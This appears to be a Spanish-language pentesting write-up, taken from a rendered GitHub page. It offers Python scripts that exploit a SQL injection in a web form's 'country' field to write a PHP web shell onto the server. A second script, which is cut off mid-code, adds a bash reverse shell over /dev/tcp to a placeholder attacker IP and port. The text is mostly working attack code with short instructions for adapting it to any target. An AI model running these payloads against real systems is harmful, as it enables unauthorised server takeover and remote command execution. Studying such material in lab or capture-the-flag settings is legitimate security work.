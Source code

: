 ```python
# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

        createFile()
```

Con este script de `python` ajustado a las necesidades de cada uno te creara un archivo en la `IP` que le indiques y si tuviera una ruta diferente despues de la `/` se modifica la parte de `main_url = "http://%s/" % ip_address` añadiendo despues de la `/` lo que sea necesario y los paraemtros de `username y country` igual...

Pero si a parte de crear el script quieres automatizarlo mas aun creando una `Reverse Shell` seguidamente, lo modficaremos haciendo lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
```